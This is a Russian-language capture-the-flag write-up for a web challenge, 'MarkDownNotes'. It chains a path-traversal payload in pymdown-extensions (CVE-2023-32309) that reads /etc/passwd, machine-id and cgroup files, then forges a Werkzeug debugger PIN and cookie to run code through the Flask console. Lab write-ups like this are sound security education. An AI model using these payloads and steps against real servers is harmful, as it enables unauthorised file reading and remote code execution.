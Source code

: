 
Райтап на Web таск от CyberEd - "MarkDownNotes"
Описание:
"MarkDownNotes - очередной сайт для хранения заметок. Мы заботимся о безопасности данных наших клиентов! Однако на поддержание сервиса уходит много средств, поэтому бесплатно предоставляются только 10 заметок. Используйте их с умом! Акция: найдите багу по программе бабаунти и докажите её, исполнив файл read_flag в корне приложения, и получите бесплатное пользование сервисом навсегда!"

После регистрации на [сайте](http://mdn.cyber-ed.space) нас встречает сервис заметок:
![main_site](https://github.com/k3vg3n/MDN/assets/87700221/7a506887-a406-41d5-a6d2-1bda25fa43d7)
Добавлять можно до 10 заметок на аккаунт.


### Разведка
Запустим nikto:

![nikto_out](https://github.com/k3vg3n/MDN/assets/87700221/d70df5d4-7285-463c-b0a1-5e2c44769ed0)


Переходим на http://mdn.cyber-ed.space/console:
![flask_console](https://github.com/k3vg3n/MDN/assets/87700221/6549e1d5-abeb-4844-86d3-3ec23e4dada3)
На нем находится Werkzeug Debugger, значит сайт написан на Flask.
Чтобы зайти в консоль и выполнить файл read_flag нам нужно знать pin-код, а у нас его нет.
Из [статьи](https://habr.com/ru/articles/738238/pin-код) узнаем, что pin-код flask генерируетcя на основе:
1.  Appname (`getattr(app, "__name__", type(app).__name__)`) по умолчанию имеет значение `Flask`
2. `getattr(mod, "__file__", None),` или путь до Flask
3. Modname, по умолчанию `flask.app`
4. Username - имя пользователя в системе linux
5. MAC-адрес устройства
6. Machine_id - ID устройства
Нам сразу известны Appname и Modname.
Надо найти остальные значения, прочитав файлы в системе.

### Получаем AFR (arbitrary file read)
Тут обращаемся к особенности таска - *markdown*.
Ищем расширения на python:
![markdown_search](https://github.com/k3vg3n/MDN/assets/87700221/21fad3e3-d858-4a2d-87f8-feded7cb1525)
Находим два основных расширения: Python-Markdown и pymdown-extensions.
На Python-Markdown я не нашел AFR, в отличии от pymdown-extensions ([CVE-2023-32309](https://www.cve.org/CVERecord?id=CVE-2023-32309), [github](https://github.com/advisories/GHSA-jh85-wwv9-24hv)):
![pymdown_AFR](https://github.com/k3vg3n/MDN/assets/87700221/ec8d3dfd-5423-496a-bd68-461ae102a6eb)
Создадим шаблон, который мы будем менять и отправлять: `--8<-- "../../../../etc/passwd"`
Попробуем прочитать /etc/passwd (`--8<-- "../../../../etc/passwd"`):
![passwd](https://github.com/k3vg3n/MDN/assets/87700221/080749f6-43dc-4ac7-9753-82635796aa36)
Успешно.
Теперь мы можем прочитать нужные нам файлы для генерации pin-кода.

### Получение данных и генерация pin-кода
Имя пользователя мы уже получили из /etc/passwd - "app"
Чтобы получить MAC-адрес, нам нужно знать по какому интерфейсу устройство выходит в сеть. Для этого читаем файл `/proc/net/dev` (`--8<-- "../../../../proc/net/dev"`):
```
Inter-| Receive | Transmit face |bytes packets errs drop fifo frame compressed multicast|bytes packets errs drop fifo colls carrier compressed eth0: 86949846 338155 0 0 0 0 0 0 100381675 357756 0 0 0 0 0 0 lo: 1341217 13102 0 0 0 0 0 0 1341217 13102 0 0 0 0 0 0
```
Видно, что соединение происходит по eth0.
Смотрим MAC-адрес (`--8<-- "../../../../sys/class/net/eth0/address"`):
`02:42:ac:18:00:04`

Чтобы найти machine-id читаем файл `/etc/machine-id`:
`04a9330868336aa19c457b402d5a4f7c`
и  `/proc/self/cgroup`:
```
12:blkio:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 11:rdma:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 10:pids:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 9:perf_event:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 8:freezer:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 7:net_cls,net_prio:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 6:devices:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 5:hugetlb:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 4:cpu,cpuacct:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 3:cpuset:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 2:memory:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 1:name=systemd:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 0::/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9
```
Из `/proc/self/cgroup` нам нужна последняя строчка:
`0::/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9`

Чтобы найти путь к app.py мы должны вызвать ошибку в Flask. Для этого можно отправить POST запрос на создание заметки без указания "title" и "content": 
```
POST 
http://mdn.cyber-ed.space/profile 
Cookie: session=your_cookie
```
![burp](https://github.com/k3vg3n/MDN/assets/87700221/981eca62-255a-4507-ac4d-456c63e77fae)
Путь к приложению: `/usr/local/lib/python3.8/site-packages/flask/app.py`

Итого имеем:
```
machine_id: 04a9330868336aa19c457b402d5a4f7c
username: app
name: Flask
Modname: flask.app
MAC: 02:42:ac:18:00:04
path: /usr/local/lib/python3.8/site-packages/flask/app.py
```

Для генерации pin-кода и cookie используем [этот скрипт](https://github.com/SidneyJob/Werkzeuger).
Устанавливаем:
```
git clone https://github.com/SidneyJob/Werkzeuger
cd Werkzeuger
```

Запускаем скрипт, подставляя наши значения:
```
python gen.py --username app --path /usr/local/lib/python3.8/site-packages/flask/app.py --mac 02:42:ac:18:00:04 --machine_id 04a9330868336aa19c457b402d5a4f7c  --cgroup 0::/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9

```
Получаем куки:
![run_script](https://github.com/k3vg3n/MDN/assets/87700221/14e40c6d-a0ec-4853-8a4a-92fcd6295981)
![run_script_out](https://github.com/k3vg3n/MDN/assets/87700221/fd20a744-4bbc-4eb1-8154-6cb34596c43b)

Нам нужны строчки:
```
[+] Success!
[*] PIN: 233-535-197
[*] Cookie: __wzd49d0c27c7911c3fc007f=1710008146|6e27d4a6cf2a
[*] Modname: flask.app
[*] Appname: Flask
```


### Получаем доступ к консоли
Если у Вас превышен лимит на ввод pin-кода, то открываем [консоль](http://mdn.cyber-ed.space/console) и подставляем куки в браузер (иначе можете просто ввести pin):
![new_cookie](https://github.com/k3vg3n/MDN/assets/87700221/cf07246a-b090-4da9-b2b3-ca667192cfbf)
Перезагружаем страницу.
Мы зашли в консоль.
![console_enter](https://github.com/k3vg3n/MDN/assets/87700221/7dd318ef-c31c-430b-8d00-d6c3ecf2617a)


### Получаем флаг
Посмотрим файлы в директории:
```
import subprocess
subprocess.run(["ls", "-lah"], capture_output=True)
```
Видим тот самый файл с флагом.
```
CompletedProcess(args=['ls', '-lah'], returncode=0, stdout=b'total 72K\ndrwxr-xr-x 1 app app 4.0K Mar 9 15:14 
ndrwxr-xr-x 1 root root 4.0K Mar 5 14:38 
-rw-r--r-- 1 app app 519 Sep 23 20:02 config.py
-rwxr-xr-x 1 app app 151 Sep 22 15:07 entrypoint.sh
-rw-r--r-- 1 app app 162 Sep 23 18:35 main.py
-rw-r--r-- 1 app app 599 Sep 22 15:07 manage.py
drwxr-xr-x 1 app app 4.0K Sep 22 14:19 models
drwxr-xr-x 1 app app 4.0K Sep 23 19:26 modules
---s--x--x 1 root root 17K Sep 23 16:40 read_flag
-rw-r--r-- 1 app app 118 Sep 23 18:38 requirements.txt
drwxr-xr-x 4 root root 4.0K Sep 22 14:52 static
drwxr-xr-x 1 app app 4.0K Sep 22 14:23 templates
drwxr-xr-x 1 app app 4.0K Sep 23 18:33 utils', stderr=b'')
```
Смотрим в какой директории мы находимся:
```
subprocess.run(["pwd"], capture_output=True)
```
Мы находимся в папке "/app":
`CompletedProcess(args=['pwd'], returncode=0, stdout=b'/app\n', stderr=b'')`

Чтобы выполнить файл "read_flag" вводим команду:
```
subprocess.run(["/app/read_flag"], capture_output=True)
```
Получаем флаг:
```
CompletedProcess(args=['/app/read_flag'], returncode=0, stdout=b'flag{fl45k_d3bu6_m0d3_15_un54f3}', stderr=b'')
```
![console_flag](https://github.com/k3vg3n/MDN/assets/87700221/5ea91a4d-be37-4294-b1e7-258164b0c2b8)
##### Флаг: flag{fl45k_d3bu6_m0d3_15_un54f3}


Спасибо за прочтение!

Полезные ссылки:
https://habr.com/ru/articles/738238/
https://security.snyk.io/vuln/SNYK-PYTHON-PYMDOWNEXTENSIONS-5537103
